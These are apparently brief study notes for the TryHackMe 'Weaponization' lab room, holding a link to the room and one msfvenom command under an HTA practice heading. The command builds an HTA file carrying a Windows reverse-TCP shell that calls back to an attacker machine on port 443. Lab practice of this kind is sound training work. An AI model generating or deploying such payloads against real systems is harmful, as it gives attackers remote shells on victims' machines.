 # Weaponization

**Walkthrough:** [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)



## Practice Area

### HTA

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o thm.hta
```
